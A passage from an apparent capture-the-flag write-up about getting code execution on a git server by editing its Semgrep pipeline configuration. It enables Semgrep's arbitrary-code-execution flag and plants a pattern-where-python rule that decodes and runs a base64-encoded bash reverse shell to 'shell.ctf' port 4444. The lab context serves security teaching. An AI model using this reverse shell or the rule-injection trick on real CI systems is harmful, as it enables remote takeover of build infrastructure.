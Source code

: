 Once again, the file that ran the pipeline was protected against changes. But the configuration files were not.

I quickly found out that I could replace the `emacs` format by any other option. I tried to get the version of Semgrep that was being used.

```json
{
    "format": "version",
    "config": [".semgrep"],
    "verbose": true
}
```

When I pushed that change, I got version `0.60.0`.

With some searching, I found out about the `dangerously-allow-arbitrary-code-execution-from-rules` and `pattern-where-python` parameters that allowed [running Python code](https://semgrep.dev/docs/writing-rules/rule-syntax/#pattern-where-python). 

I modified the pipeline configuration file to pass the flag instead of the configuration.

```json
{
    "format": "dangerously-allow-arbitrary-code-execution-from-rules",
    "config": [".semgrep"],
    "verbose": false
}
```

And the Semgrep rules to execute a reverse shell to our shell box.

```bash
$ echo 'bash  -i >& /dev/tcp/shell.ctf/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3Avc2hlbGwuY3RmLzQ0NDQgMD4mMSAK
```

```yaml
rules:
  - id: ban-os-system
    severity: ERROR
    languages: [python]
    message: "Usage of os.system is prohibited"
    patterns:
      - pattern: $FIELD = os.system(...)
      - pattern-where-python: "'id' in __import__('os').system('echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3Avc2hlbGwuY3RmLzQ0NDQgMD4mMSAK | base64 -d | bash')"
```

I committed and pushed the changes.

```
$ git add . ; git commit -m 'test'; git push origin test
[test a6dbf67] test
 1 file changed, 1 insertion(+), 1 deletion(-)
git@semgrep.git.ctf's password: 
Enumerating objects: 7, done.
Counting objects: 100% (7/7), done.
Delta compression using up to 16 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (4/4), 944 bytes | 944.00 KiB/s, done.
Total 4 (delta 2), reused 0 (delta 0), pack-reused 0
remote: running 1 rules...
remote: Running without optimizations since running pattern-where-python rules
remote: Deprecation Notice: running with `--optimizations none` will be deprecated by 0.60.0
remote: This includes the following functionality:
remote: - pattern-where-python
remote: - taint-mode
remote: - equivalences
remote: - step-by-step evaluation output
```